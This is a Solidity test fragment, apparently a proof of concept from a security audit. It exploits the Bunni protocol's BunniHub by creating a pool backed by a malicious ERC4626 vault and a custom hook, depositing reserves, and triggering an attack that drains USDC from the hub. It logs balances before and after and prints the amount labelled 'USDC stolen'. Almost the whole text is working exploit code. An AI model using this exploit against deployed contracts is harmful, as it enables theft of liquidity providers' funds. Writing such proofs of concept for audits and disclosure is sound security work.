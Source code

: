 ```solidity
            ldfType: LDFType.STATIC,
            ldfParams: bytes32(abi.encodePacked(ShiftMode.BOTH, int24(-3) * TICK_SPACING, int16(6), ALPHA)),
            hooks: BunniHook(payable(customHook)),
            hookParams: "",
            vault0: ERC4626(address(maliciousVault)),
            vault1: ERC4626(address(USDCVault)),
            minRawTokenRatio0: 0,
            targetRawTokenRatio0: 0,
            maxRawTokenRatio0: 0,
            minRawTokenRatio1: 0,
            targetRawTokenRatio1: 0,
            maxRawTokenRatio1: 0,
            sqrtPriceX96: TickMath.getSqrtPriceAtTick(4),
            name: bytes32("MaliciousBunniToken"),
            symbol: bytes32("BAD-BUNNI-LP"),
            owner: address(this),
            metadataURI: "metadataURI",
            salt: bytes32(keccak256("malicious"))
        })
    );

    // 4. Make a deposit to the malicious pool to have accounted some reserves of vault0 and initiate attack
    uint256 initialToken0Deposit = 50_000 ether;
    uint256 initialToken1Deposit = 50_000e6;
    deal(address(token0), address(this), 2 * initialToken0Deposit);
    deal(address(token1), address(this), 2 * initialToken0Deposit);
    token0.approve(customHook, 2 * initialToken0Deposit);
    token1.approve(customHook, 2 * initialToken0Deposit);
    CustomHook(payable(customHook)).depositInitialReserves(
        address(token1), initialToken1Deposit, address(hub), poolManager, maliciousKey, false
    );
    CustomHook(payable(customHook)).mintERC6909(address(token0), initialToken0Deposit);
    uint256 shares =
        CustomHook(payable(customHook)).mintBunniToken(maliciousKey, initialToken0Deposit, initialToken1Deposit);

    console.log(
        "BunniHub token1 raw balance before",
        poolManager.balanceOf(address(hub), Currency.wrap(address(token1)).toId())
    );
    console.log("BunniHub token1 vault reserve before", ERC4626(USDCVault).maxWithdraw(address(hub)));
    uint256 hookBalanceBefore = token1.balanceOf(customHook);
    console.log("MaliciousHook token1 balance before", hookBalanceBefore);

    maliciousVault.setupAttack();
    CustomHook(payable(customHook)).initiateAttack(
        IBunniHub(address(hub)), maliciousKey, USDCVault, shares / 2, Vector.WITHDRAW, 17
    );
    console.log(
        "BunniHub token1 raw balance after",
        poolManager.balanceOf(address(hub), Currency.wrap(address(token1)).toId())
    );
    console.log("BunniHub token1 vault reserve after", ERC4626(USDCVault).maxWithdraw(address(hub)));
    console.log("MaliciousHook token1 balance after", token1.balanceOf(customHook));
    console.log("USDC stolen", token1.balanceOf(customHook) - initialToken1Deposit);
}
```
